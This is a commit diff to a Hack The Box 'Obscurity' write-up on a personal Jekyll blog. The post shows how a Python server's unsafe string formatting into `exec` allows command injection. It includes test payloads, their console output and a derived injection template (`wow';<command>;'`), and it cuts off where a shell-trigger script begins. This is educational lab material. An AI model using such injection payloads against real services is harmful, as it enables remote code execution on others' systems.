

Before and after one commit to ongyuann/ongyuann.github.io, a Jekyll site: the page built from _posts/2020-05-29-htb-obscurity.md, in a window 1280 px wide and 1400 px high, scrolled down 7074 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-05-29-htb-obscurity.md

````diff
--- a/_posts/2020-05-29-htb-obscurity.md
+++ b/_posts/2020-05-29-htb-obscurity.md
@@ -239,7 +239,7 @@
 exec(info.format(path))
 ```
 
-So the clues we have are that the author probably didn't implement string formatting correctly on Python, and if we could exploit the improperly-implemented string formatting, we can pass our commands to the `exec` function which can execute system commands, essentially allowing us remote code execution capabilities.
+These clues indicate that the author didn't implement string formatting correctly on Python - and if we could exploit the improperly-implemented string formatting, we can achieve remote code execution by passing our commands to the dangerous `exec` function. ([Here's a pretty good article that explains the dangers of certain Python functions.](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html))
 
 Let's study how we can exploit the supposedly poorly-formatted string formatting. To do this, we can make our own Python script where we imitate the way that user input is received into `SuperSecureServer.py` by using the same `urllib.parse` function that `SuperSecureServer.py` is using, then parsing that input in the exact same way.
 (FYI, note that the user input in this case is the URL that's entered into `SuperSecureServer.py`).
@@ -270,25 +270,27 @@
 Last few lines: Visualizes how our input is parsed by the prepared statement. In the last line, our input is parsed into the original `exec` statement.
 
 With this setup, let's do a few tests:
-```console
+```
 kali@kali:~$ ./test.py wow
 [+] exec (info.format(path))
 [+] print
 output = 'Document: wow'
 [+] exec
 ```
+Attempted payload: `wow`
 Entering `wow` does no harm, but we do see how our input is inserted into the prepared statement. We should notice that if we had inserted a `'` before `wow`, we could close the prepared statement and potentially insert our own commands, just like how all injections typically work.
 
-```console
+```
 kali@kali:~$ ./test.py "%40"
 [+] exec (info.format(path))
 [+] print
 output = 'Document: @'
 [+] exec
 ```
-Entering `%40`, we see that our input is URL-decoded into `@`. This is caused by the `urllib.parse` function, which automatically URL-decodes user input. Why did we have to test this? That's because most command injections via web-applications rely on bypassing restrictions through URL encoding/decoding, so now that we've confirmed this transformation in the source code, maybe we can use this to our advantage (and ultimately, we do!).
+Attempted payload: `%40`
+Entering `%40`, we see that our input is URL-decoded into `@`. This is caused by the `urllib.parse` function, which automatically URL-decodes user input. Why are we testing this? That's because most command injections through web-applications use URL encoding to bypass restrictions, so now that we've confirmed this transformation in the source code, maybe we could use this to our advantage (and ultimately, we do!).
 
-```console
+```
 kali@kali:~$ ./test.py "wow';print (%27a%27)"
 [+] exec (info.format(path))
 [+] print
@@ -302,11 +304,12 @@
                                         ^
 SyntaxError: EOL while scanning string literal
 ```
+Attempted payload: `wow';print (%27a%27)`
 Here we've attempted a mini command injection by entering `wow';print (%27a%27)`. URL decoded, this becomes `wow';print ('a')` - see here that we've immediately capitalized on URL encoding to smuggle `'` characters into the user input, where such characters could have broken the statement prematurely (actually it doesn't, but still good practice ˙ ͜ʟ˙).
 
 However, we see that there's a `SyntaxError` caused by a mistake I'd made here - I'd forgotten to take care if the trailing `'` at the end of the prepared statement. So in our next try, let's take care of it by adding another `'` at the end of our input to pair up with the trailing `'` and close the loop. Note that to add this `'`, we need to first add a `;` before to close our injected command -> `;'`.
 
-```console
+```
 kali@kali:~$ ./test.py "wow';print (%27a%27);'"
 [+] exec (info.format(path))
 [+] print
@@ -314,9 +317,12 @@
 [+] exec
 a
 ```
-Notice the `a` below the `[+] exec`. We've successfully demonstrated command injection! Note here that we now have the syntax for our command injection: `"wow';<our-url-encoded-command>;'"`
+Attempted payload: `wow';print (%27a%27);'`
+Notice the `a` below the `[+] exec`? We've successfully demonstrated command injection! Note here that we now have the syntax for our command injection: `"wow';<our-url-encoded-command>;'"`
 
-To get a shell back this way, we can automate this by Python - and if we use Python's `requests` module, we can take advantage of the fact that the `requests` module automatically URL-encodes inputs! Super convenient!
+To get a shell back this way, we can automate this by Python - and if we use Python's `requests` module, we can take advantage of the fact that the `requests` module automatically URL-encodes inputs. How convenient is that?
+
+Our `shell-trigger.py`:
 ```python
 kali@kali:~$ cat shell-trigger.py
 import requests
````
